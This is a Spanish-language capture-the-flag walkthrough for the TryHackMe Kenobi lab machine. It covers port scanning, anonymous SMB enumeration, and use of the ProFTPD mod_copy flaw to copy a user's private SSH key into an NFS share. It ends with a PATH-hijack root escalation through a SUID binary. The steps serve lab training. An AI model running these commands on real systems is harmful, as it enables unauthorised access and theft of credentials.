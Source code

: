 # Guía de Explotación - TryHackMe Kenobi

## 1. Reconocimiento

Comenzamos con un escaneo de Nmap para identificar los puertos abiertos y servicios disponibles en la máquina objetivo. Ejecutamos el siguiente comando:

```bash
nmap -sC -p- --open -n --max-rate 1000 -sV IP_MAQUINA_ATACADA
```

![Escaneo Nmap](./assets/image.png)

El escaneo revela los siguientes puertos abiertos:
- **21/TCP** (FTP)
- **22/TCP** (SSH)
- **80/TCP** (HTTP)
- **111/TCP** (RPC)
- **139/TCP** (SMB)
- **445/TCP** (SMB)
- **2049/TCP** (NFS)
- **37043/TCP** (nlockmgr)
- **44641/TCP** (mountd)
- **46237/TCP** (mountd)
- **52163/TCP** (mountd)

## 2. Enumeración de SMB

Para identificar recursos compartidos en SMB, usamos el siguiente comando de Nmap:

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP_MAQUINA_ATACADA
```

![Enumeración SMB](./assets/image-1.png)

Accedemos al recurso compartido `smb` como `anonymous`. Al listar los archivos, encontramos `log.txt`.

```bash
smbget -R smb://IP_MAQUINA_ATACADA/anonymous
```

![Descarga SMB](./assets/image-2.png)

Descargamos y leemos el archivo:

```bash
cat log.txt
```

![Contenido log.txt](./assets/image-6.png)

Se revela que el usuario `kenobi` tiene claves almacenadas en `/home/kenobi/.ssh/`.

## 3. Análisis de RPC

El escaneo previo muestra que el puerto `111` ejecuta el servicio `rpcbind`.

![RPC Bind](./assets/image-3.png)

Podemos verificar monturas en `NFS` usando:

```bash
showmount -e IP_MAQUINA_ATACADA
```

Esto nos muestra que `/var` es un directorio compartido.

## 4. Explotación de FTP

Nos conectamos al servicio FTP en el puerto `21`:

```bash
nc IP_MAQUINA_ATACADA 21
```

![Conexión FTP](./assets/image-4.png)

Buscamos vulnerabilidades en `ProFTPD 1.3.5`:

```bash
searchsploit proftpd 1.3.5
```

![SearchSploit](./assets/image-5.png)

Se identifica una vulnerabilidad en el módulo `mod_copy`, que permite copiar archivos sin autenticación. Utilizamos los siguientes comandos para copiar la clave privada de `kenobi` a un directorio accesible:

```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![Exploit mod_copy](./assets/image-7.png)

Dado que `/var` está montado en `NFS`, podemos acceder a `id_rsa` desde nuestra máquina atacante:

```bash
mkdir /mnt/kenobiNFS
mount IP_MAQUINA_ATACADA:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

![Montaje NFS](./assets/image-8.png)

Ahora podemos obtener la clave privada y autenticarnos como `kenobi` por SSH:

```bash
ssh -i id_rsa kenobi@IP_MAQUINA_ATACADA
```

![Acceso SSH](./assets/image-11.png)

## 5. Escalada de Privilegios

**Nota:**
- **Bit SUID:** Permite ejecutar un binario con los permisos de su propietario.
- **Bit SGID:** Permite ejecutar un binario con los permisos del grupo propietario.

Ejecutamos la búsqueda de binarios con SUID:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![Búsqueda de binarios SUID](./assets/image-12.png)

Identificamos el binario `menu`, que ofrece tres opciones al ejecutarse:

![Menú binario](./assets/image-13.png)

Sabemos que el binario del menú se ejecuta con el bit SUID, lo que significa que se ejecuta con los permisos del propietario del archivo. Este binario llama a otros programas, lo que significa que estos también se ejecutan con altos privilegios. Uno de estos programas es `curl`. Ahora podemos editar el código que se ejecuta por menú a través de la edición de la definición del binario `curl`. En este caso, usaremos el shell `/bin/sh` para "sobrescribir" `curl` para que se llame al shell en lugar de `curl`.

Primero copiamos el shell `/bin/sh` y lo llamamos `curl`. Luego le damos los permisos correctos y ponemos su ubicación en nuestra ruta. Esto significa que cuando se ejecuta el binario /usr/bin/menu, se utiliza nuestra variable path para encontrar el binario `curl`. Que en realidad es una versión de `/usr/sh`, y como el menú se ejecuta como `root`, también ejecuta nuestro shell como `root`.

```bash
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

![Ejecutar shell](./assets/image-14.png)

Al seleccionar la opción `1`, obtenemos acceso como `root`:

```bash
id
```

![Acceso root](./assets/image-15.png)

Ahora podemos leer la flag de `root`:

```bash
cat /root/root.txt
```

![Flag root](./assets/image-16.png)

¡Máquina comprometida con éxito!